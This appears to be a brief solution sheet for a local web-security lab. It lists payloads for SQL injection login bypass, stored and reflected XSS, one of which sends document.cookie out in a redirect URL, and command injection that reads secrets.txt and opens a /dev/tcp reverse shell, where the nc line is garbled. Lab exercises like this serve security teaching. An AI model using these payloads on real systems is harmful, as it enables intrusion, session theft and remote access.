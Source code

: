 # SQL injection

Task 1: SQL injection
- username: `alice@alice.com' --`
- Leave password empty
    - In SQL, `--` is comment

Task 2: persistent XSS
- XSS:
    - type into comments box: 
    - ```<script type='text/javascript'> alert(document.cookie); </script>``` 
    
```
<script type='text/javascript'> 
    if (window.location.href.includes('news')){
        console.log('done');
    }else{
        window.location = 'http://localhost:5005/news?text=' + document.cookie;
    }
</script>
```

Task 3: reflected XSS:
link: `http://localhost:5005/malicious`

Task 4: reverse shell:
- To echo the contents of secrets.txt:
- `127.0.0.1; cat secrets.txt`

- To open reverse shell:
- ```127.0.0.1; nc -i>& /dev/tcp/127.0.0.1/8080 0>&1```